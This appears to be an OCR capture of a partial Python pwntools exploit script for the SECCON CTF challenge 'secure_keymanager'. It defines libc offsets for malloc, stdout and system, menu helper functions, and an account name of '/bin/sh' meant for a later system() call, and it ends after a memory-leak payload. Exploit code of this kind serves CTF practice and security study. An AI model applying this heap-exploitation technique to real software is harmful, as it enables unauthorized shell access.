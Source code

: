 ```python
#c = remote('secure_keymanager.pwn.seccon.jp', 47225)
stdout_so = 0x3c5620
malloc_so = 0x3c4b10
system_so = 0x045390

def add(_key, title, size='', line=1):
  if size is '':
    size = len(key)
  c.sendline('1')
  c.recvuntil('Input key length...')
  c.sendline(str(size))
  c.recvuntil('Input title...')
  if line:
    c.sendline(title)
  else:
    c.send(title)
  if int(str(size), 10) > 1:
    c.recvuntil('Input key...')
    if line:
      c.sendline(_key)
    else:
      c.send(_key)
  
def edit(id, _key, line=1):
  c.sendline('3')
  c.recvuntil('Input Account Name >> ')
  c.sendline(account)
  c.recvuntil('Input Master Pass >> ')
  c.sendline(master)
  c.recvuntil('Input id to edit...')
  c.sendline(str(id))
  c.recvuntil('Input new key...')
  if line:
    c.sendline(_key)
  else:
    c.send(_key)
def delete(id, ok=1):
  c.sendline('4')
  c.recvuntil('Input Account Name >> ')
  c.sendline(account)
  c.recvuntil('Input Master Pass >> ')
  c.sendline(master)
  c.recvuntil('Input id to remove...')
  c.sendline(str(id))
  if ok:
    c.recvuntil('>>')

def reg(account,master):
  c.recvuntil('>>')
  c.sendline(account)
  c.recvuntil('>>')
  c.sendline(master)
  
account = "/bin/sh\x00"
master = 'ok\x00'
  
reg(account,master)
c.sendline('9')
c.recvuntil('>>')
payload = 'X' * 0x18
c.send(payload)
c.recvuntil(payload)

```
